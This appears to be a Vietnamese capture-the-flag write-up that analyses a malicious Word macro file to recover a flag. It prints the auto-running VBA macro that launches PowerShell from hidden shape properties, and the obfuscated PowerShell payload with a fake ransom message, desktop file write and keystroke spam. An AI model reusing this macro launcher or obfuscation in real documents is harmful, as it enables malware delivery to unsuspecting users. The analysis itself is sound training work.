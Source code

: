 ![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-15%20223359.png)

Đề cho một file `Flag.docm` chứa malware. Sử dụng tool olevba để phân tích:
```
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
'Flag format: KCSC{H1_1m_sUcky_+$phlac}'
Sub Auto_Open()
On Error Resume Next
Dim objCmdShape As Shape
Dim hiddenkey As Long
Dim cmdParams() As String
Dim cmdCommand As String
Dim cmdType As String
Dim cmdObj As Object
hiddenkey = RGB(13, 3, 7)
If Val(Application.Version) > 14 Then
    For x = 1 To ActiveDocument.Shapes.Count
        Set objCmdShape = ActiveDocument.Shapes(x)
        If objCmdShape.Shadow.ForeColor.RGB = hiddenkey Then
            cmdType = objCmdShape.Name
            cmdCommand = objCmdShape.AlternativeText
            cmdParams = Split(objCmdShape.TextFrame.TextRange.Text, "|")
            Set cmdObj = Interaction.CreateObject(cmdType)
            VBA$.[Interaction].CallByName! cmdObj, [cmdCommand], VbMethod, "PoWerShElL", Trim(cmdParams(0)), cmdParams(1), cmdParams(2)
            objCmdShape.Delete
            Exit For
        End If
    Next
Else
    MsgBox "Microsoft Word is not installed on this computer or its version is lower than Microsoft Word 2013", vbCritical
    Application.Quit
End If
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub

+----------+--------------------+---------------------------------------------+
```

Được phần 1 của flag `Flag format: KCSC{H1_1m_sUcky_+$phlac}`. Khả năng phần 2 là giá trị của biến `$phlac` trong powershell được thi thực thi bằng script ở trên. Cho nên bước tiếp theo ta sẽ phân tích động. Chạy file `Flag.docm` (nhớ là tắt hết các phần mềm antivirus và thực thi trên máy ảo) thì thấy môt màn hình terminal được bật lên và dẫn tới một video trên youtube (Cảnh bảo: đeo tai nghe trước khi chạy file =)) ).

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20180624.png)

Mở file trong đường dẫn `"C:\Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx"` để xem lịch sử cmd đã thực thi. Thấy có ps được chạy khi mở file 'Flag.docm'

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20181608.png)

```
${p4yL04D}=('Mộ'+'t '+'s'+'ố '+'tà'+'i '+'l'+("{1}{0}" -f 'u ','iệ')+'qua'+'n '+'trọ'+'ng '+'của'+' '+'b'+'ạn '+'đ'+'ã '+'bị'+' '+'m'+'ã '+(("hóa!!`nĐể "+'')+'')+("{0}{1}" -f 'đư','ợc')+' '+'hướ'+'ng '+'d'+'ẫn '+'giả'+'i '+'m'+'ã, '+'bạn'+' '+'cầ'+'n '+("{1}{0}" -f'uy','ch')+'ể'+'n '+'kh'+("{1}{0}"-f'ản ','o')+'1'+("{0}{1}"-f '00','k ')+'và'+'o '+'s'+'ố '+'tài'+' '+("{1}{0}" -f'ả','kho')+'n'+' '+(("sau:`n1010107112000`nChủ "+'')+'')+'tà'+'i '+'kh'+("{1}{0}" -f ':','oản')+' '+'N'+'guy'+'ễn '+'Th'+("{1}{0}" -f' ','anh')+(("Long`nNgân "+'')+'')+'h'+("{0}{1}" -f 'àng',' ')+'M'+'B '+'Ba'+'nk')
&('A'+'d'+("{0}{1}"-f 'd-T','ype')) -AssemblyName ("{1}{6}{0}{3}{5}{4}{2}"-f 't.V',("{0}{1}"-f 'Micr','os'),'ic','is',("{1}{0}" -f 's','lBa'),'ua','of');
seT-ItEM ("V"+"arIab"+"le:hVI96") ( [TypE]("{4}{5}{7}{1}{3}{6}{0}{8}{2}" -F 'c.InTER','b','ION','a','miCrOsOf','t.ViS','sI','uAl','ACT') ) ;
 SEt-itEM ('vA'+'Riab'+'le:'+'O7v'+'8k')  (  [TYPE]("{4}{5}{3}{2}{0}{1}"-F '.MSGBOxSt','yLe','.VIsualbASic','Soft','MiC','rO')  ) ;
( get-vARIABlE ('hvI9'+'6')  -valUEONl )::MsgBox(${p4yL04D},  $O7V8K::Information, ("{1}{4}{8}{11}{9}{0}{2}{3}{6}{10}{7}{5}" -f 'cùng thương','Chú',' ','t','ng tô','in','i',' t','i ',' ','ếc báo',' vô'));
.("{3}{0}{1}{2}" -f("{1}{0}"-f 'tp','-Ou'),'u','t',("{0}{1}"-f'W','rite')) ${p4yL04D} | .("{1}{0}{2}" -f("{0}{1}{2}"-f'u','t-','Fil'),'O','e') -Encoding ("{1}{0}"-f'f8','ut') "C:\Users\$env:UserName\Desktop\Hacked.txt"
${Ws`CripT} = .("{0}{2}{1}"-f'New-O','ct','bje') -com ("{1}{0}{2}"-f'c','ws','ript.shell');
 1..50 | .('%') { ${w`SCri`Pt}."s`endK`EYs"([char]175) };
&("{2}{0}{1}" -f 't','art-Process','S') ("{2}{1}{0}" -f 'lore','p','iex') -ArgumentList ("{1}{6}{2}{0}{5}{3}{7}{4}"-f 'ww.youtube.c','-k ','://w','m/w','pRqs4k','o','https','atch?v=BMEdB')
${phlac}=("{2}{5}{0}{4}{1}{3}" -f 'y',("{2}{1}{0}" -f ("{2}{1}{0}" -f'H',("{0}{1}" -f'_a','h1'),'_m3'),'0t','u_g'),("{0}{2}{1}"-f 'Tr0',("{0}{1}" -f '4',("{0}{1}" -f("{0}{1}"-f'lw','@r'),'3')),("{1}{0}"-f'_m','ll')),'i','0','_');
.("{4}{0}{3}{2}{1}"-f'-Va','e','abl','ri',("{0}{1}" -f'R',("{0}{1}"-f'emo','ve'))) ("{1}{0}" -f 'c',("{0}{1}" -f'phl','a'))
```

Tìm thấy được biến $phlac

```
${phlac}=("{2}{5}{0}{4}{1}{3}" -f 'y',("{2}{1}{0}" -f ("{2}{1}{0}" -f'H',("{0}{1}" -f'_a','h1'),'_m3'),'0t','u_g'),("{0}{2}{1}"-f 'Tr0',("{0}{1}" -f '4',("{0}{1}" -f("{0}{1}"-f'lw','@r'),'3')),("{1}{0}"-f'_m','ll')),'i','0','_');
```
Chạy câu lệnh trên trong terminal và dùng `echo $phlac` để xem giá trị của biến 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20182858.png)

Flag = KCSC{H1_1m_sUcky_Tr0ll_m4lw@r3_y0u_g0t_m3_ah1Hi}



